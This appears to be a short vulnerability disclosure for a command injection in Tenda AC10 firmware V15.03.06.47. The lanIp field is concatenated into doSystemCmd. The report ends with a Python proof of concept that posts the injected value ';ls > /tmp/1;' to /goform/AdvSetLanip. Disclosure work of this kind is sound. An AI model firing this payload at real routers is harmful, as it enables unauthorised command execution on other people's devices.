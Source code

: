 # command injection

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a command injection in httpd/TendaTelnet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](13.png)

call doSystemCmd, concate lan.ip

![](14.png)

lan.ip get value from lanIp, and we can execute arbitrary command

## POC
```
url = "http://192.168.1.13/goform/AdvSetLanip"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={'lanIp': payload})
``` 
